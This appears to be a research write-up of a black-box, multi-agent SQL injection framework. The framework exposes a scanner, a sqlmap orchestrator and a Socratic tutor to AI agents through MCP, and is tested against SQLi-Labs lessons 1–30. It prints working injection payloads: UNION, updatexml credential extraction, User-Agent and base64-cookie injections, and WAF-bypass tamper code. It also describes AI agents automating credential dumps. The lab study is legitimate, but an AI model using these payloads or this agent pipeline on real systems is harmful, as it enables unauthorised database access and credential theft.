



# A Black-Box, Multi-Agent SQL Injection Audit Framework Using the Model Context Protocol

**Author:** chrom
**Environment:** Ubuntu 22.04 (WSL2 on Windows 11), Docker host at `172.18.0.1`
**Target:** SQLi-Labs running on Apache 2.4.7 / PHP 5.5.9 / MySQL 5.x
**Toolchain:** Python 3.12.3, sqlmap 1.10.4.4#dev, Playwright (Python API), FastMCP

---

The motivation for this project is small and personal. I wanted to know whether a language model, given the right tools, could audit a vulnerable web application in the same shape that a security researcher does, read the response, form a hypothesis, send a payload, read the response again, and write down what just happened. Not because doing it manually is hard, but because doing it manually does not scale, and because I wanted to find out where the model would stop being useful and where it would surprise me.

The aim of this paper is to document a multi-agent SQL injection audit framework that addresses three coupled problems. First, how to build a black-box scanner whose every claim is grounded in observable HTTP behaviour, not in a reading of the server's source code. Second, how to expose that scanner as a tool that any AI agent speaking the Model Context Protocol can call, rather than locking it to the AI tool I happened to be using on day one. Third, how to make the same underlying data drive both an automated audit pipeline that dumps credentials and a Socratic tutor that refuses to. Across all three problems, the working benchmark is SQLi-Labs lessons 1 through 30, run end-to-end on Ubuntu WSL2 against a Docker container at `172.18.0.1`.

Before describing the framework, the variables and constants need to be fixed. The target host is `172.18.0.1`, set in code via the `TARGET_IP` environment variable. The base URL the scanner attacks is `BASE_URL = http://172.18.0.1/`. The five Python files that make up the toolkit are `core/sqli_final.py` (the scanner), `core/auto_orchestrator.py` (the batch runner), `core/sqli_tutor.py` (the Socratic guidance generator), `core/config.py` (cross-platform configuration), and `mcp/sqli_mcp.py` (the agent-facing tool server). The shared state file is `core/vulnerability_profile.json`. The sentinel character used throughout extraction payloads is `0x7e`, which is the hex representation of the tilde `~`. These names will be used without further introduction.

Choosing not to read the server source was the first decision and it was deliberate. SQLi-Labs is open source; the PHP for every lesson is one `cat` command away, and reading it would have shortened my development time by a factor of two. I chose not to because the resulting tool would only work in the lab. A scanner that needs the server to be open-source is not a scanner; it is a worksheet. From the project's earliest notes, this constraint was written exactly this way: *No access to server-side source code. All logic is evidence-based.* Every detection method described later in this paper traces back to that single sentence. When the scanner concludes Lesson 1 has a UNION-based injection with closure `'`, it does so because the rendered HTML contains the strings `gemini2` and `gemini3` after a specific GET request, not because someone read `Less-1/index.php`.

The framework is organised as five layers, but only the bottom three matter to this discussion. The Oracle (`core/sqli_final.py`) is the scanner. The Orchestrator (`core/auto_orchestrator.py`) drives the scanner across all 30 lessons and spawns sqlmap for credential dumping. The MCP Server (`mcp/sqli_mcp.py`) wraps the scanner and the tutor as JSON-RPC tools that any AI agent can call. The remaining two layers (the AI agents themselves, and the lab_reports evidence vault) are consumers of the lower three. The agent layer used during this project ran Claude Sonnet 4.6 as a planner, Qwen 3.6+ for code execution, and Kimi K2.5 for reading conversation logs. None of that detail leaks into the lower layers; the MCP interface is the same regardless of which model is calling it.

The scanner's central design choice is how to decide that an injection succeeded. UNION-based detection is the cleanest example. The scanner sends a payload that asks MySQL to return three known string values and then checks whether those values appear in the rendered HTML. The strings have to be chosen carefully. Using integers like 1, 2, 3 fails because pages contain those integers naturally. The current implementation uses the strings `gemini1`, `gemini2`, `gemini3`, hex-encoded so that no quoting is required:

```python
markers = [f"gemini{i}" for i in range(1, col_count + 1)]
marker_cols = ",".join([f"0x{m.encode().hex()}" for m in markers])
payload_str = f"{closure} UNION SELECT {marker_cols}"
final_p = self.apply_tamper(payload_str, closure, tamper)
target_url = f"{self.url}?{param}=-1{final_p}"
r = self.session.get(target_url, timeout=TIMEOUT)

reflected_indices = []
for i in range(1, col_count + 1):
    if f"gemini{i}" in r.text:
        reflected_indices.append(i)
```

For three columns this produces the on-the-wire request `?id=-1' UNION SELECT 0x67656d696e6931,0x67656d696e6932,0x67656d696e6933-- -`. The strings `gemini1`, `gemini2`, `gemini3` do not appear in any page on a default SQLi-Labs install, in any Apache error template, or in any of the standard PHP framework outputs. If the scanner sees `gemini2` in the response, the UNION ran and the second column reflects. The scanner records `Reflected: [2, 3]` and moves on. Reflection of integers would not be a safe inference. Reflection of `gemini2` is a safe inference. The cost of this safety is one extra hex-encoding step, which the scanner does anyway because it sidesteps closure-aware quoting in the marker payload.

Once column reflection is known, the scanner picks the first reflecting column and replaces it with a real exfiltration query. The result is a credential dump payload that the Oracle saves into `payloads.txt` for human reuse. Figure 1 shows what one of these dumps looks like rendered in a browser, the page is Lesson 1 with the full credential dump payload pasted into the URL.


![[fig_lesson01_union_dump.png]]
*Figure 1: Lesson 1 rendered after a UNION dump payload. The "Your Login name" field shows the injected `database()` value, and the "Your Password" field is filled by the next reflected column. The injection point sits inside the WHERE clause of the lesson's primary SQL query, which is why the page renders normally apart from the substituted fields.*

For lessons where the response does not reflect data, the scanner falls back to error-based extraction using `updatexml`. The technique relies on a specific MySQL behaviour: if `updatexml`'s second argument is not valid XPath, MySQL writes the offending string into the error message. Wrapping a subquery in `concat(0x7e, SUBQUERY, 0x7e)` produces an error like `XPATH syntax error: '~Dumb,Angelina,Dummy~'`. The tilde delimiters are the marker the scanner then parses out:

```python
def check_error_response(self, text):
    patterns = [
        r"XPATH syntax error: '.*\\(.*?)\\.*'",
        r"XPATH syntax error: ':(.*?):'",
        r"XPATH syntax error: '~(.*?)~'",
        r"XPATH syntax error: '(.*?)'"
    ]
    for p in patterns:
        match = re.search(p, text)
        if match:
            res = match.group(1).strip('~').strip(':').strip('\\')
            if res and len(res) > 1:
                return res
    return None
```

The four patterns are not redundant. Different MySQL versions wrap the leaked string in different delimiters: backslash on some builds, colon on others, tilde when the payload uses `0x7e`, bare quotes when nothing was added. The scanner tries the most specific pattern first and falls back. The check `if res and len(res) > 1` exists because the bare-quote pattern occasionally matches single characters from the page itself; a one-character return is treated as a false positive.

Errors and reflections are sufficient for Lessons 1 through 17. From Lesson 18 onward the injection point moves out of URL parameters and into HTTP headers. Lesson 18 injects through `User-Agent`. Lesson 19 through `Referer`. Lessons 20, 21, and 22 through cookie values. Lessons 21 and 22 require base64 encoding on top of that, because the server runs `base64_decode` on the cookie before it reaches the SQL. A generic GET/POST scanner never touches these injection points and so never sees them. The scanner handles these lessons through a dedicated function `solve_header_specific` that holds lesson-aware payloads:

```python
def solve_header_specific(self):
    payload_db = ("updatexml(1,concat(0x7e,"
                  "(SELECT GROUP_CONCAT(username,0x7e,password) FROM users),"
                  "0x7e),1)")

    if self.lesson_num == 18:
        payload = f"' , '1' , {payload_db}) #"
        h = HEADERS.copy(); h['User-Agent'] = payload
        ...

    elif self.lesson_num == 21:
        payload_raw = f"admin') and {payload_db} #"
        payload_b64 = base64.b64encode(payload_raw.encode()).decode()
        req_cookies = {'uname': payload_b64}
        ...
```

Lesson 18's payload `' , '1' , {payload}) #` is not arbitrary. The lesson logs the User-Agent into a three-column INSERT statement; the payload supplies the first two columns as harmless string literals and uses the third for the actual error-based exfiltration. Lessons 21 and 22 differ only in closure character (single quote with parenthesis for 21, double quote for 22), but both pass through `base64.b64encode` because the server's first action on the cookie is to decode it. Figure 2 shows Lesson 21 after a successful base64 cookie injection; the page renders normally because the injection happened in the cookie header, not in the visible URL, but the `users.sql` data is now visible in the response body.


![[fig_lesson21_base64_cookie.png]]
*Figure 2: Lesson 21 rendered after the base64-encoded cookie payload `YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsKFNFTEVDVCBHUk9VUF9DT05DQVQodXNlcm5hbWUsMHg3ZSxwYXNzd29yZCkgRlJPTSB1c2VycyksMHg3ZSksMSkgIw==` (decoded: `admin') and updatexml(1,concat(0x7e,(SELECT GROUP_CONCAT(username,0x7e,password) FROM users),0x7e),1) #`). The injection point is the `uname` cookie value; the orchestrator captured this screenshot via Playwright after the scanner reported a successful B64 cookie injection.*

Lessons 25 through 28 add a new constraint: the server applies `preg_replace` to strip SQL keywords or whitespace before the input reaches the database. The scanner deals with these through a system of "tamper" transformations applied in `apply_tamper`. The function holds eight modes; the most useful in practice are `keyword_replace`, which exploits non-recursive `preg_replace` by writing `UNION` as `ununionion` (the inner `UNION` is removed, leaving `un` + `ion` = `union`), and `waf_bypass`, which combines URL-encoded newlines with double-keyword tricks for filters that strip both spaces and keywords:

```python
def apply_tamper(self, payload, closure, mode):
    p = payload
    if mode == 'none':
        p += "-- -"
    elif mode == 'space_bypass':
        p = p.replace(" ", "%0a") + "%0a-- -"
    elif mode == 'keyword_replace':
        p = (p.replace("AND", "%26%26").replace("OR", "%7C%7C")
              .replace("UNION", "ununionion").replace("SELECT", "selselectect")
              + "-- -")
    elif mode == 'waf_bypass':
        p = (p.replace(" ", "%a0").replace("AND", "%26%26").replace("OR", "%7C%7C")
              .replace("UNION", "ununionion").replace("SELECT", "selselectect"))
        p += "%a0%26%26%a0'1'='1" if closure == "'" else "%a0%26%26%a01=1"
    ...
    return p
```

The `waf_bypass` branch is doing a lot at once. `%a0` (non-breaking space) is the whitespace replacement chosen because Lesson 26's filter strips literal spaces but does not strip the URL-encoded high-bit space. `%26%26` and `%7C%7C` are URL-encoded `&&` and `||`, which MySQL accepts as synonyms for `AND` and `OR` but which the lesson's keyword filter does not catch. The doubled keywords `ununionion` and `selselectect` survive a single pass of keyword removal. The trailing `'1'='1` closes the original SQL string instead of using a comment terminator, because some lessons strip `--` and `#` outright.

Figure 3 shows Lesson 26 after the waf_bypass payload runs. The page that lesson normally returns is a flat error message; the screenshot shows it returning user data, which is unambiguous evidence the bypass worked.


![[fig_lesson26_waf_bypass.png]]
*Figure 3: Lesson 26 rendered after the `waf_bypass` payload `?id=1' && updatexml(1,concat(0x7e,(selselectect GROUP_CONCAT(username,0x7e,password) FROM users),0x7e),1) && '1'='1`. The `selselectect` doubled-keyword survives the lesson's `preg_replace`, the `%a0` whitespace bypasses the space filter, and the trailing `'1'='1` balances the original WHERE clause without using a banned comment character.*

The scanner produces three artifacts. `scan_results.txt` is a log of detection outcomes. `payloads.txt` is a human-readable list of weaponised payloads with the URL- and base64-encoded forms decoded into something a pentester can paste into Burp or HackBar. `vulnerability_profile.json` is the structured data file that the AI tutor and the orchestrator both depend on. The third file is the most important architectural choice in the project. Before it existed, the AI agent had to read English print statements and parse them with regular expressions; afterwards, every claim about a lesson's vulnerability shape is a dictionary lookup. The structure is small and direct:

```json
{
    "1": {
        "type": "UNION-Based",
        "method": "GET",
        "parameter": "id",
        "closure": "'",
        "tamper": "none",
        "extra": "Cols:3"
    }
}
```

Asking "what is Lesson 1's closure?" is `profile["1"]["closure"]`. Asking "is this lesson UNION-based?" is `profile[n]["type"] == "UNION-Based"`. The agent layer has structured access to ground truth, and ground truth is whatever the scanner just wrote to disk. If the scanner is wrong, the agent is wrong, but the wrongness is debuggable: open the JSON, see what's wrong, run the scanner again.

The MCP server `mcp/sqli_mcp.py` exposes three tools: `oracle_scan`, `browser_test`, and `get_lesson_guidance`. Their interfaces are FastMCP-decorated Python functions; the wire format underneath is JSON-RPC 2.0. A call to `oracle_scan(lesson_number=1)` becomes:

```json
{
  "jsonrpc": "2.0",
  "method": "tools/call",
  "params": {
    "name": "oracle_scan",
    "arguments": {"lesson_number": 1}
  },
  "id": 1
}
```

The server runs the scanner as a subprocess, reads the resulting `vulnerability_profile.json`, extracts the requested lesson, and returns the JSON object. The implementation is short enough to quote in full:

```python
@mcp.tool()
def oracle_scan(lesson_number: int) -> str:
    try:
        cmd = [PYTHON_BIN, str(CORE_DIR / "sqli_final.py"),
               "--lesson", str(lesson_number), "--json", "--no-reset"]
        subprocess.run(cmd, cwd=str(CORE_DIR),
                       capture_output=True, text=True, timeout=120)
        profile_path = CORE_DIR / "vulnerability_profile.json"
        if profile_path.exists():
            with open(profile_path, "r") as f:
                profile = json.load(f)
            lesson_data = profile.get(str(lesson_number))
            if lesson_data:
                return json.dumps(lesson_data, indent=2)
            return json.dumps({"error":
                f"Lesson {lesson_number} not in profile (range 1-30)."})
        return json.dumps({"error":
            "Scan completed but vulnerability_profile.json not found."})
    except subprocess.TimeoutExpired:
        return json.dumps({"error":
            f"Oracle scan for lesson {lesson_number} timed out after 120s."})
    except Exception as e:
        return json.dumps({"error": str(e)})
```

Two design choices deserve attention. First, every error path returns a JSON object with an `error` key, never a Python exception or a plain string. The agent on the other end of the protocol can branch on `if "error" in result:` regardless of what went wrong. Second, `--no-reset` is passed by default; the scanner is told not to call the SQLi-Labs setup endpoint, because doing so on every MCP call would wipe state mid-conversation. Resets are reserved for the orchestrator's full-batch entry point.

`browser_test` is the more interesting tool because it changed shape during development. The first version was a wrapper around the Playwright CLI that returned a screenshot file path. The agent received a string like `"Screenshot saved to /home/.../mcp_test.png"` and could do nothing useful with it, because language models cannot read PNG bytes. The replacement uses the Playwright Python API directly, intercepts the HTTP response to capture the status code, parses the rendered DOM, and returns a structured summary:

```python
@mcp.tool()
def browser_test(url: str, payload: str, lesson_id: int) -> str:
    target = f"{url}{payload}"
    viz_dir = LAB_REPORTS_DIR / f"Less-{lesson_id:02d}" / "visuals"
    viz_dir.mkdir(parents=True, exist_ok=True)
    screenshot_path = str(viz_dir / "mcp_test.png")

    result = {"target_url": target, "screenshot": screenshot_path,
              "status_code": None, "page_title": None,
              "detected_errors": [], "body_snippet": None, "error": None}

    with sync_playwright() as p:
        browser = p.chromium.launch(headless=True)
        page = browser.new_page()

        response_ref = {}
        def on_response(response):
            if response.url.rstrip("/") == target.rstrip("/"):
                response_ref["status"] = response.status
        page.on("response", on_response)

        page.goto(target, wait_until="domcontentloaded", timeout=15000)
        result["status_code"] = response_ref.get("status", "unknown")
        result["page_title"]  = page.title()
        body_text = page.inner_text("body") if page.query_selector("body") else ""
        result["body_snippet"] = body_text[:500].strip()
        error_patterns = [
            "you have an error in your sql syntax",
            "warning: mysql", "xpath syntax error",
            "unclosed quotation mark", "quoted string not properly terminated",
        ]
        result["detected_errors"] = [p for p in error_patterns
                                     if p in body_text.lower()]
        page.screenshot(path=screenshot_path)
        browser.close()

    return json.dumps(result, indent=2)
```

The shape of what the agent receives is now `{"status_code": 200, "page_title": "Less-1 ...", "body_snippet": "Your Login name:Dumb, Angelina, ...", "detected_errors": []}`. The agent can assert on `body_snippet` containing `"Dumb"` to decide whether the injection succeeded. It can read `detected_errors` to decide whether the lesson is leaking SQL syntax errors, which would indicate an error-based path is open. The screenshot still gets written to disk for human review, but the agent does not need to look at it; the JSON contains everything required to make a decision.

The third tool, `get_lesson_guidance`, is the bridge between the technical discovery layer and the Socratic teaching layer. The tutor logic in `core/sqli_tutor.py` was originally a CLI loop (`input()` in a `while True`) and its core function `provide_guidance` produces output via `print`. Wrapping a stdout-emitting function as an MCP tool is awkward but possible:

```python
@mcp.tool()
def get_lesson_guidance(lesson_number: int) -> str:
    profile_path = CORE_DIR / "vulnerability_profile.json"
    with open(profile_path) as f:
        profile = json.load(f)
    lesson_data = profile.get(str(lesson_number))

    spec = importlib.util.spec_from_file_location("sqli_tutor",
                                                  CORE_DIR / "sqli_tutor.py")
    tutor = importlib.util.module_from_spec(spec)
    spec.loader.exec_module(tutor)

    result_str = (f"{lesson_data['type']} | "
                  f"Method: {lesson_data['method']} | "
                  f"Closure: {lesson_data['closure']} | "
                  f"Tamper: {lesson_data['tamper']}")

    buf = io.StringIO()
    with redirect_stdout(buf):
        tutor.provide_guidance(str(lesson_number), result_str, payload_str)

    return json.dumps({"lesson": lesson_number,
                       "vulnerability": result_str,
                       "guidance": buf.getvalue()}, indent=2)
```

This is not how I would write the tutor today. A cleaner version would expose `provide_guidance` as a function returning a string. But the tutor was already tested against a CLI loop and rewriting it would have meant changing code I had high confidence in. The `redirect_stdout` capture is a one-time bridge that lets the MCP wrapper extract the same text the CLI would have printed, with no behavioural change in the tutor itself. The cost is a few lines of dynamic-import code; the benefit is that the tutor logic is now reachable from any MCP client.

The structural feature that makes the framework work is that all three tools read from the same `vulnerability_profile.json`. `oracle_scan` writes it; `browser_test` does not touch it but operates on the same target URLs the scanner already classified; `get_lesson_guidance` reads the lesson's classification and produces teaching text against it. The Socratic mode and the direct audit mode share state, and that state is structured, so neither mode can diverge from the other in what they claim about a lesson. The tutor will not tell a student the closure is `"` if the scanner just wrote `"closure": "'"`.

Validation of the framework was a single end-to-end run against all 30 SQLi-Labs lessons. The orchestrator was launched with `python3 core/auto_orchestrator.py --range 1-30`. The scanner reset the database via the SQLi-Labs `setup-db.php` endpoint, ran each lesson in turn, wrote its findings to `vulnerability_profile.json`, captured a Playwright screenshot of the breakout, and ran sqlmap against the discovered injection point. The output of the scanner alone, recorded in `core/injection_script_convo.json` line 667, was `Total Successful Injections: 30/30` with `Total Payloads Saved: 30`. The full per-lesson result table is given here:

| Type | Lessons | Successes | Distinguishing technique |
|------|---------|-----------|--------------------------|
| GET UNION | 1, 2, 3, 4, 23, 25, 29, 30 | 8/8 | hex-encoded `gemini1..3` markers, ORDER BY column count |
| GET Error-Based | 5, 6 | 2/2 | `updatexml` with `0x7e` tilde delimiters |
| GET Time-Blind | 7, 8 | 2/2 | `SLEEP(3)` with timing threshold |
| GET Boolean-Blind | 9, 10 | 2/2 | response-length delta > 20 bytes |
| POST UNION | 11, 12 | 2/2 | `gemini` markers in POST body |
| POST Login-Bypass | 13, 14, 15, 16 | 4/4 | `') OR 1=1#` across closure variants |
| POST Error-Based | 17 | 1/1 | `passwd` parameter with `updatexml` |
| Header (UA / Referer) | 18, 19 | 2/2 | INSERT-shape payload `' , '1' , {payload}) #` |
| Cookie (plain) | 20 | 1/1 | direct `uname` cookie injection |
| Cookie (Base64) | 21, 22 | 2/2 | `base64.b64encode` wrapper |
| WAF (comment-strip) | 23 | 1/1 | trailing `'1'='1` instead of `--` |
| Second-Order | 24 | 1/1 | register `admin'#`, trigger via password change |
| WAF (keyword) | 25, 27 | 2/2 | `selselectect`, `ununionion` doubled keywords |
| WAF (space) | 26 | 1/1 | `%a0` non-breaking space whitespace |
| WAF (boolean) | 28 | 1/1 | `waf_bypass` composite |
| HPP | 29 | 1/1 | `?id=1&id=-1' UNION ...` parameter pollution |
| Double-quote UNION | 30 | 1/1 | `"` closure variant |

All 30 lessons resolved on a single pass. The corresponding artifacts (`scan_results.txt`, `payloads.txt`, and `vulnerability_profile.json`) were produced in roughly 12 minutes of wall time, dominated by the database resets between lessons rather than the scans themselves. Spot-checking a representative artifact, the surgical flush record for Lesson 21 reads:

```
SURGICAL FLUSH FOR LESSON 21
==============================
VULN TYPE: Error-Based
METHOD: COOKIE
PAYLOAD: ') AND updatexml(1,concat(0x7e,(SELECT GROUP_CONCAT(username,0x7e,password) FROM users),0x7e),1)-- -

EXTRACTED DATA:
Dumb
```

The `Dumb` field is the first row of the SQLi-Labs `users` table; subsequent rows are concatenated by `GROUP_CONCAT` and appear in the same field when the response is not truncated by the lesson's display logic.

Some honest accounting is owed. The 30/30 figure refers to the scanner's own self-report. When the same lessons are driven through the MCP layer in batch mode, four lessons (17, 26, 27, 28) intermittently produce a detection without producing a credential dump, because `solve()` uses short-circuit return: as soon as one detection method matches, the scanner moves to the next lesson, and the matched method is not always the most extractable one. Lesson 26, for instance, can detect both error-based and boolean-blind paths; when boolean-blind matches first, the corresponding extraction code in `flush_data()` returns an existence check rather than a full credential dump, and the lesson is logged as detected-but-not-flushed. The fix is a refactor of `solve()` into a priority queue (UNION > Error > Boolean > Time) and is on the followup list.

Time-blind extraction is structurally incomplete. Lessons 7, 8, and 9 detect successfully via `SLEEP(3)` timing, but `get_extraction_payload` for the blind branch returns an existence check rather than a per-character binary search over `ascii(substring(...))`. A full dump via time-blind would take roughly 7 HTTP requests per character at 3 seconds each, which is many minutes per credential. The scanner currently stops at detection.

The MCP layer has a known concurrency limit. Running more than 10 `oracle_scan` calls in parallel against header-injection lessons (which require an authenticated session, and so take 20–35 seconds each instead of the 8–15 seconds a normal lesson takes) consistently triggers timeout cascades that crash the FastMCP server process. The mitigation is a `--batch-size 10` cap in the orchestrator and sequential execution of header lessons. A server-side request queue would be more robust.

A minor cross-platform issue surfaced in the orchestrator's interaction with sqlmap. The `/usr/local/bin/sqlmap` binary's shebang reads `#!/usr/bin/env python`, but Ubuntu 22.04 ships only `python3` by default; `env` cannot resolve `python` and the shebang fails before sqlmap runs a single line. The fix is to bypass the shebang by invoking sqlmap as a script through `sys.executable`:

```python
SQLMAP_INVOKE = [PYTHON_BIN, SQLMAP_PATH]
sqlmap_cmd = SQLMAP_INVOKE + ["-u", target_url, "--batch", "--dbs", "--proxy", PROXY]
```

This change made the orchestrator's sqlmap step work on a stock WSL2 install without modifying the host OS or the sqlmap source.

The framework is most defensible as a research artifact in three respects. It demonstrates that black-box detection over HTTP behaviour can resolve all 30 SQLi-Labs lessons without server-side cooperation. It demonstrates that a structured shared-state file can decouple a scanner from the AI agents that consume its output, allowing a single source of ground truth to drive both an automated audit and a Socratic tutor. It demonstrates that wrapping a Python toolchain as JSON-RPC tools through MCP is a small enough change to retrofit onto an existing project (under 200 lines for `mcp/sqli_mcp.py`), with no modifications to the scanner or tutor required beyond the addition of `--json` and `--no-reset` flags.

What the framework does not demonstrate is generalisation beyond SQLi-Labs. The header-injection logic in `solve_header_specific` contains lesson-aware payloads for Lessons 18 through 22 specifically; pointing the scanner at a different lab with different INSERT shapes would require new code in that function, rather than new configuration alone. The tamper modes were tuned against the specific filters in Lessons 25 through 28; a real-world WAF with a different rule set would need new tamper modes to be added by hand. The black-box principle holds (the scanner makes no assumptions about server source), but the catalogue of probe techniques is shaped by the catalogue of vulnerabilities present in this particular lab. Generalisation is the next research question, not this paper's claim.

The conclusion I draw from the build is narrower than the framework's surface size suggests. A scanner can be built to produce structured artifacts; an AI agent can be made to reason over those artifacts; the same artifacts can drive both a tutor that hides the answer and an auditor that extracts it. The bottleneck is not the AI and not the scanner. The bottleneck is the discipline required to keep the artifact format stable across tool changes, environment changes, and the inevitable rewrites of one component while the others continue to depend on it. `vulnerability_profile.json` is the contract that holds the framework together. As long as it stays well-defined, the rest of the framework can be torn out and replaced one piece at a time without breaking what remains.

---

**References & artifacts.** All conversation logs, scanner outputs, and payload archives cited in this paper are stored in `core/ai_tool_dev_convo.json`, `core/injection_script_convo.json`, `core/tutor_dev_convo.json`, and the per-lesson directories under `lab_reports/`. The current vulnerability profile and the full payload list reside at `core/vulnerability_profile.json` and the regenerated `payloads.txt`. The cnblogs reference for the Lesson 26 keyword-replace tamper that informed `apply_tamper`'s `keyword_replace` and `waf_bypass` modes is *liigceen, sqli-labs靶场全通关*, https://www.cnblogs.com/liigceen/p/18555978.
